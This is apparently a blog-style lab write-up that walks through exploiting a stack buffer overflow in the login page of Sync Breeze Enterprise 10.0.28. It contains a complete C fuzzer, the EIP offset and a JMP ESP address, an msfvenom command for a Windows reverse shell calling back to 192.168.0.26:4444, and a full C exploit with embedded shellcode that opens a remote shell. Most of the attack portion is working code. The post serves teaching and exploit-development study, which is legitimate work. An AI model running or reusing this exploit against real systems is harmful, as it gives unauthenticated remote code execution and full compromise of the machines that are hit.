## 1.1 Introduction 

In this post, I will develop an exploit and simulate a Buffer Overflow (BOF) attack in a practical way, exploiting a vulnerability present in the Sync Breeze Enterprise 10.0.28 application.

Objective: to trigger a buffer overflow in the application, overwrite the function's return address, and take control of the program's execution flow, allowing arbitrary code execution and remote access to the target machine through a reverse shell.

Before moving on to practical exploration, it is important to understand how a buffer overflow works. In short, a Buffer Overflow occurs when a program writes more data than the size previously allocated for a buffer, exceeding its limits and overwriting adjacent memory regions. In applications developed in languages like C/C++, when proper boundary validation is not performed, this behavior can lead to critical security failures.

In x86 architectures, during a function call, the stack is used to store essential information for the execution flow, such as the return address (EIP), the base pointer (EBP), and local variables. If a buffer allocated on the stack is filled beyond its capacity, the excess data can overwrite the EIP. By controlling this value, an attacker can redirect the program’s execution flow to an address of their choice, enabling the execution of shellcode.

In the case of Sync Breeze Enterprise 10.0.28, the vulnerability is present in the web authentication interface, where user-provided data is not properly validated before being processed. This makes it possible to send a specially crafted malicious input, resulting in a buffer overflow and, consequently, gaining control of the application's execution.

Throughout this post, the process of analyzing the vulnerability, identifying the correct offset to overwrite the EIP, and constructing a functional exploit will be demonstrated, all in a controlled lab environment and for educational purposes only.

## 2.1 Application Overview



Now, I will try to make a random login and with Wireshark I will capture this HTTP request made.




With the input fields that the application has, it is possible to create a fuzzer to try to find potential vulnerabilities. For the fuzzer, we will use the HTTP request header, where we will inject random data to test for a buffer overflow.

```
POST /login HTTP/1.1
Host: 192.168.0.25
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://192.168.0.25
Connection: keep-alive
Referer: http://192.168.0.25/login
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=teste&password=teste
```

## 3.1 Building the Fuzzer

With the HTTP header, we will be building the fuzzer in C, targeting the login endpoint.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <arpa/inet.h>

#define SERVER_IP   "192.168.0.25"
#define SERVER_PORT 80
#define BUF_SIZE    4096

void fill_fuzz(char *buf, int size) {
    memset(buf, 'A', size);
    buf[size] = '\0';
}

int create_socket(void) {
    int s = socket(AF_INET, SOCK_STREAM, 0);
    if (s < 0) {
        perror("socket");
    }
    return s;
}

int main(void) {
    struct sockaddr_in server;
    char response[BUF_SIZE];

    server.sin_family = AF_INET;
    server.sin_port = htons(SERVER_PORT);
    inet_pton(AF_INET, SERVER_IP, &server.sin_addr);

    for (int fuzz = 100; fuzz <= 2000; fuzz += 100) {

        char *fuzz_buf = malloc(fuzz + 1);
        if (!fuzz_buf) {
            perror("malloc");
            return 1;
        }

        fill_fuzz(fuzz_buf, fuzz);

        char post_data[BUF_SIZE];
        snprintf(post_data, sizeof(post_data),
                 "username=%s&password=123456",
                 fuzz_buf);

        char http_request[BUF_SIZE];
        snprintf(http_request, sizeof(http_request),
            "POST /login HTTP/1.1\r\n"
            "Host: %s\r\n"
            "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0"
            "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
            "Accept-Language: en-US,en;q=0.5\r\n"
            "Accept-Encoding: gzip, deflate\r\n"
            "Content-Type: application/x-www-form-urlencoded\r\n"
            "Content-Length: %zu\r\n"
            "Origin: http://%s\r\n"
            "Connection: keep-alive\r\n"
            "Referer: http://%s/login\r\n"
            "Upgrade-Insecure-Requests: 1\r\n"
            "Priority: u=0, i\r\n"
            "\r\n"
            "%s",
            SERVER_IP,
            strlen(post_data),
            SERVER_IP,
            SERVER_IP,
            post_data
        );

        int sock = create_socket();
        if (sock < 0) {
            free(fuzz_buf);
            return 1;
        }

        if (connect(sock, (struct sockaddr *)&server, sizeof(server)) < 0) {
            perror("connect");
            close(sock);
            free(fuzz_buf);
            return 1;
        }

        printf("[*] Enviando %d bytes no parâmetro username...\n", fuzz);

        if (send(sock, http_request, strlen(http_request), 0) < 0) {
            perror("send");
            close(sock);
            free(fuzz_buf);
            return 1;
        }

        int received = recv(sock, response, sizeof(response) - 1, 0);
        if (received > 0) {
            response[received] = '\0';
            printf("Resposta:\n%s\n", response);
        } else {
            perror("recv");
        }

        close(sock);
        free(fuzz_buf);
    }
}
```

My fuzzer performs fuzzing on the username parameter of an HTTP POST request, sending payloads of different sizes to identify possible application processing errors. The code runs a loop that varies the buffer size from 100 to 2000 bytes, filling this buffer with the character 'A' using the memset() function. This buffer is then inserted directly into the username field, while the password field remains fixed, allowing the server's behavior regarding the tested parameter to be isolated. 

Next, the program manually constructs a full HTTP request, including common headers to simulate a legitimate request, as well as dynamically calculating the Content-Length based on the payload size. After constructing the request, the fuzzer creates a TCP socket, establishes a connection with the target server, and sends the data using the send() function. The server's response is read with recv(), allowing observation of whether the application responds normally or exhibits errors.

During the execution of the fuzzer, it is possible to identify at what input size the application begins to behave abnormally or stops responding, which may indicate the existence of vulnerabilities related to buffer overflow or improper input validation.



With a total of 800 bytes in the username parameter, the app crashes and the connection drops.



Alright, now we know that the user input field is vulnerable, I will also test the password input field by sending the payload to the password parameter:

```c
    char post_data[BUF_SIZE];
    snprintf(post_data, sizeof(post_data),
            "username=admin&password=%s",
            fuzz_buf);
```

Starting the Fuzzer:



After running the fuzzer against the password parameter as well, it was possible to observe the same anomalous behavior previously identified in the username field. When sending excessively large payloads, the application stops responding and terminates the process, indicating that both input parameters are vulnerable to buffer overflow.

This confirms that the application does not properly validate or sanitize the input provided by the user in various fields of the authentication mechanism. From an attacker's perspective, this significantly increases the attack surface, since more than one input vector can be exploited to cause memory corruption.

## 4.1 Understanding the EIP Register

The EIP (Extended Instruction Pointer) register stores the address of the next instruction to be executed by the CPU. In a stack-based buffer overflow, data that exceeds the limit can overwrite the return address saved on the stack.

If the attacker controls this value, they control the program's execution flow. Therefore, gaining control over the EIP is the primary goal of exploit development.

### 4.1.1 Running first exploit



An error message is displayed showing that the exploit caused a crash because the EIP was overwritten with '41414141'.

'41414141' -> ASCII -> 'AAAA'.

Thus, we confirm that through our payload we were able to break the program.

### 4.1.2 Finding the EIP Overwrite Offset

To determine the exact offset where the EIP is overwritten, we use Metasploit's pattern generation utilities.

Generating the Pattern:



Applying it to our exploit:



Now let's run our exploit and analyze the result in real time using the Immunity Debugger.



By observing the EIP register, it is possible to see that it was overwritten by the hexadecimal sequence '72413372', which is part of the pattern we sent in the exploit. Thus, we can use pattern_offset to find the exact position in the string where this return address overwrite occurs.


Now we finally discovered that the EIP is overwritten exactly at position 520 of the string.

### 4.1.3 Redirecting EIP to Strategic Memory Areas

Now we come across an important point in the logic of the exploit. In a Buffer Overflow attack, the goal is not just to crash the application, but to control the execution flow. To do this, we need the EIP register to point to the code we want to execute, which in this case is the shellcode inserted in the buffer right after the EIP.

The problem is that after the overwrite, the program tries to continue execution from the address contained in the EIP. To solve this, we use the JMP ESP instruction. By overwriting the EIP with the address of this instruction, execution is redirected to the address pointed to by the ESP register, which points exactly to the beginning of our shellcode.

In this way, we manage to make the program execute code controlled by the attacker. For this technique to work properly, the address of JMP ESP needs to be stable, free of invalid characters, and located in a module without memory protections, ensuring the reliability of the exploit.



Done, we found the address that executes JMP ESP. We will now place this pointer in our exploit later on.

### 4.1.4 Bad Characters and Shellcode Generation

After analyzing the application's behavior and comparing it with known exploitation patterns for this target, the following problematic characters were identified:
```
\x00 \x0a \x0d \x25 \x26 \x2b \x3d
```
A reverse shell payload was generated using msfvenom, excluding these bytes:
```shell
msfvenom -p windows/shell_reverse_tcp lhost=192.168.0.26 lport=4444 exitfunc=seh -f c -b '\x00\x0a\x0d\x25\x26\x2b\x3d' -v shellcode
```

## 5.1 Exploit Final

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <arpa/inet.h>

#define SERVER_IP   "192.168.0.25"
#define SERVER_PORT 80
#define BUF_SIZE    4096

int create_socket(void) {
    int s = socket(AF_INET, SOCK_STREAM, 0);
    if (s < 0) perror("socket");
    return s;
}

int main(void) {
    struct sockaddr_in server;
    char response[BUF_SIZE];

    unsigned char shellcode[] =
"\xbb\xef\xeb\xbe\x44\xda\xc8\xd9\x74\x24\xf4\x5a\x31\xc9"
"\xb1\x52\x83\xc2\x04\x31\x5a\x0e\x03\xb5\xe5\x5c\xb1\xb5"
"\x12\x22\x3a\x45\xe3\x43\xb2\xa0\xd2\x43\xa0\xa1\x45\x74"
"\xa2\xe7\x69\xff\xe6\x13\xf9\x8d\x2e\x14\x4a\x3b\x09\x1b"
"\x4b\x10\x69\x3a\xcf\x6b\xbe\x9c\xee\xa3\xb3\xdd\x37\xd9"
"\x3e\x8f\xe0\x95\xed\x3f\x84\xe0\x2d\xb4\xd6\xe5\x35\x29"
"\xae\x04\x17\xfc\xa4\x5e\xb7\xff\x69\xeb\xfe\xe7\x6e\xd6"
"\x49\x9c\x45\xac\x4b\x74\x94\x4d\xe7\xb9\x18\xbc\xf9\xfe"
"\x9f\x5f\x8c\xf6\xe3\xe2\x97\xcd\x9e\x38\x1d\xd5\x39\xca"
"\x85\x31\xbb\x1f\x53\xb2\xb7\xd4\x17\x9c\xdb\xeb\xf4\x97"
"\xe0\x60\xfb\x77\x61\x32\xd8\x53\x29\xe0\x41\xc2\x97\x47"
"\x7d\x14\x78\x37\xdb\x5f\x95\x2c\x56\x02\xf2\x81\x5b\xbc"
"\x02\x8e\xec\xcf\x30\x11\x47\x47\x79\xda\x41\x90\x7e\xf1"
"\x36\x0e\x81\xfa\x46\x07\x46\xae\x16\x3f\x6f\xcf\xfc\xbf"
"\x90\x1a\x52\xef\x3e\xf5\x13\x5f\xff\xa5\xfb\xb5\xf0\x9a"
"\x1c\xb6\xda\xb2\xb7\x4d\x8d\x7c\xef\x4d\x57\x15\xf2\x4d"
"\x76\xb9\x7b\xab\x12\x51\x2a\x64\x8b\xc8\x77\xfe\x2a\x14"
"\xa2\x7b\x6c\x9e\x41\x7c\x23\x57\x2f\x6e\xd4\x97\x7a\xcc"
"\x73\xa7\x50\x78\x1f\x3a\x3f\x78\x56\x27\xe8\x2f\x3f\x99"
"\xe1\xa5\xad\x80\x5b\xdb\x2f\x54\xa3\x5f\xf4\xa5\x2a\x5e"
"\x79\x91\x08\x70\x47\x1a\x15\x24\x17\x4d\xc3\x92\xd1\x27"
"\xa5\x4c\x88\x94\x6f\x18\x4d\xd7\xaf\x5e\x52\x32\x46\xbe"
"\xe3\xeb\x1f\xc1\xcc\x7b\xa8\xba\x30\x1c\x57\x11\xf1\x22"
"\xa9\xab\xec\xb3\x10\x5e\x4d\xde\xa2\xb5\x92\xe7\x20\x3f"
"\x6b\x1c\x38\x4a\x6e\x58\xfe\xa7\x02\xf1\x6b\xc7\xb1\xf2"
"\xb9";

    char exploit_buf[1024];

    // Padding até EIP
    memset(exploit_buf, 'A', 520);

    // JMP ESP
    memcpy(exploit_buf + 520, "\x83\x0c\x09\x10", 4);

    // 3NOP sled
    memset(exploit_buf + 524, '\x90', 20);

    // Shellcode
    memcpy(exploit_buf + 544, shellcode, sizeof(shellcode) - 1);

    exploit_buf[1023] = '\0';

    char post_data[BUF_SIZE];
    snprintf(post_data, sizeof(post_data),
             "username=admin&password=%s",
             exploit_buf);

    char http_request[BUF_SIZE];
    snprintf(http_request, sizeof(http_request),
            "POST /login HTTP/1.1\r\n"
            "Host: %s\r\n"
            "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0"
            "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
            "Accept-Language: en-US,en;q=0.5\r\n"
            "Accept-Encoding: gzip, deflate\r\n"
            "Content-Type: application/x-www-form-urlencoded\r\n"
            "Content-Length: %zu\r\n"
            "Origin: http://%s\r\n"
            "Connection: keep-alive\r\n"
            "Referer: http://%s/login\r\n"
            "Upgrade-Insecure-Requests: 1\r\n"
            "Priority: u=0, i\r\n"
            "\r\n"
            "%s",
            SERVER_IP,
            strlen(post_data),
            SERVER_IP,
            SERVER_IP,
            post_data
        );

    server.sin_family = AF_INET;
    server.sin_port = htons(SERVER_PORT);
    inet_pton(AF_INET, SERVER_IP, &server.sin_addr);

    int sock = create_socket();
    connect(sock, (struct sockaddr *)&server, sizeof(server));

    printf("[*] Sending exploit...\n");

    send(sock, http_request, strlen(http_request), 0);
    recv(sock, response, sizeof(response) - 1, 0);

    close(sock);
    return 0;
}      
```

The size of the exploit buffer was intentionally chosen to safely accommodate the padding, the EIP overwrite, the NOP sled, and the shellcode, ensuring reliable execution.

## 6.1 Exploration Result

A Netcat listener was started on port 4444, and the exploit was executed.



A reverse shell was successfully obtained, confirming arbitrary code execution.



## 7.1 Exploit Mitigation Analysis

The target application operates without effective exploit mitigations:

- ASLR: Disabled
- DEP: Disabled
- SafeSEH: Not present
- Stack Cookies: Not implemented

This configuration allows reliable stack-based exploitation using classic techniques.

## 8.1 Impact Assessment

An unauthenticated remote attacker could exploit this vulnerability to execute arbitrary code with the privileges of the Sync Breeze service. In real-world scenarios, this could result in:

- Full system compromise
- Installation of persistence
- Lateral movement within the internal network

## 9.1 Conclusion

In this case study, I demonstrated the complete process of exploiting a stack-based buffer overflow vulnerability, from initial reconnaissance and fuzzing to reliable remote code execution.

The steps included identifying the vulnerable input vector, determining the exact offset to overwrite the EIP, redirecting the execution flow using a JMP ESP instruction, handling bad characters, and finally executing a custom shellcode to obtain a reverse shell.

This analysis highlights how legacy applications that lack proper input validation and modern memory protection mechanisms can be trivially exploited. It also reinforces the importance of secure coding practices, rigorous input validation, and the adoption of exploitation mitigation techniques in software development.

All tests were conducted in a controlled lab environment and are strictly for educational and research purposes.
